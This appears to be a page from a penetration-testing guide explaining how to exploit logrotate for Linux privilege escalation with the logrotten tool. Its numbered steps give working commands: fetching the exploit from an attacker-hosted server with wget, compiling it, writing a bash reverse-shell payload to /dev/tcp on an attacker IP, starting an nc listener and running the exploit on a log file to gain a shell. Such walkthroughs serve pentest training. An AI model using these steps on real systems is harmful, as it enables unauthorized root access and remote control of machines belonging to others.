 ### **UNDERSTANDING LOGROTATE**

Logrotate is a Linux utility designed to manage log files, automating tasks like rotating, compressing, and removing old logs to prevent them from consuming excessive disk space. It's typically scheduled via cron jobs and configured through files like `/etc/logrotate.conf` and service-specific configurations in `/etc/logrotate.d/`,When assessing Logrotate for potential exploits, start by identifying configurations that could be exploited:

- **Writable log files**: Check if you have write access to log files managed by Logrotate. If so, this is a strong indicator of potential exploitability.
- **Suid permissions**: Investigate whether Logrotate or any associated scripts are running with elevated privileges (e.g., as root). This could allow for privilege escalation.

### **EXPLOITING LOGROTATE USING LOGROTTEN**

1.  Certain versions of Logrotate are known to be vulnerable To check the version, use the following command:  
    `logrotate --version`  

    ![](../../../img/Linux-Environment/99.png)

    **NOTE:** vulnerable versions: `3.8.6`, `3.11.0`, `3.15.0`, `3.18.0`
    
2.  download Logrotten from the GitHub repository.  
    `git clone https://github.com/whotwagner/logrotten.git`  
    
    ![](../../../img/Linux-Environment/100.png)

    **NOTE:** Host the script Using Python `python -m http.server 80`
    
3.  download and compiling the Logrotten exploit:
    
    ```bash
    wget http://[IP-ADRESS]:80/logrotten.c
    gcc logrotten.c -o logrotten
    ```
    
    ![](../../../img/Linux-Environment/101.png)
    
4.  Create a payload that Logrotate will execute. A common example is a bash reverse shell:  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/9001 0>&1' > payload`
    
5.  Set up a listener on your attacking machine, to catch the reverse shell:  
    `nc -nlvp 9001`
    
6.  Execute the exploit with the prepared payload:  
    `./logrotten -p ./payload /home/backups/access.log`  
    **NOTE:** Once Logrotate processes the payload, you should receive a shell.